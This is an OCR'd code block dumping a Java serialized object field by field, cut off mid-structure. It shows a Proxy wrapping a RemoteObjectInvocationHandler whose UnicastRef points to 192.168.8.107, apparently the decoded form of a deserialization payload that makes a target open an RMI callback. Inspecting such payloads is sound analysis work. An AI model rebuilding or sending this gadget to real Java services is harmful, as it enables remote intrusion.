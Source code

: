 ```
          Fields
            0:
              Object - L - 0x4c
              fieldName
                Length - 1 - 0x00 01
                Value - h - 0x68
              className1
                TC_STRING - 0x74
                  newHandle 0x00 7e 00 02
                  Length - 37 - 0x00 25
                  Value - Ljava/lang/reflect/InvocationHandler; - 0x4c6a6176612f6c616e672f7265666c6563742f496e766f636174696f6e48616e646c65723b
          classAnnotations
            TC_NULL - 0x70
            TC_ENDBLOCKDATA - 0x78
          superClassDesc
            TC_NULL - 0x70
    newHandle 0x00 7e 00 03
    classdata
      java.lang.reflect.Proxy
        values
          h
            (object)
              TC_OBJECT - 0x73
                TC_CLASSDESC - 0x72
                  className
                    Length - 45 - 0x00 2d
                    Value - java.rmi.server.RemoteObjectInvocationHandler - 0x6a6176612e726d692e7365727665722e52656d6f74654f626a656374496e766f636174696f6e48616e646c6572
                  serialVersionUID - 0x00 00 00 00 00 00 00 02
                  newHandle 0x00 7e 00 04
                  classDescFlags - 0x02 - SC_SERIALIZABLE
                  fieldCount - 0 - 0x00 00
                  classAnnotations
                    TC_NULL - 0x70
                    TC_ENDBLOCKDATA - 0x78
                  superClassDesc
                    TC_CLASSDESC - 0x72
                      className
                        Length - 28 - 0x00 1c
                        Value - java.rmi.server.RemoteObject - 0x6a6176612e726d692e7365727665722e52656d6f74654f626a656374
                      serialVersionUID - 0xd3 61 b4 91 0c 61 33 1e
                      newHandle 0x00 7e 00 05
                      classDescFlags - 0x03 - SC_WRITE_METHOD | SC_SERIALIZABLE
                      fieldCount - 0 - 0x00 00
                      classAnnotations
                        TC_NULL - 0x70
                        TC_ENDBLOCKDATA - 0x78
                      superClassDesc
                        TC_NULL - 0x70
                newHandle 0x00 7e 00 06
                classdata
                  java.rmi.server.RemoteObject
                    values
                    objectAnnotation
                      TC_BLOCKDATA - 0x77
                        Length - 54 - 0x36
                        Contents - 0x000a556e6963617374526566000d3139322e3136382e382e3130370000fec9e6f44498ddd89ea2f5ea79f10000017543c9ebc9800101
                      TC_ENDBLOCKDATA - 0x78
                  java.rmi.server.RemoteObjectInvocationHandler
                    values
```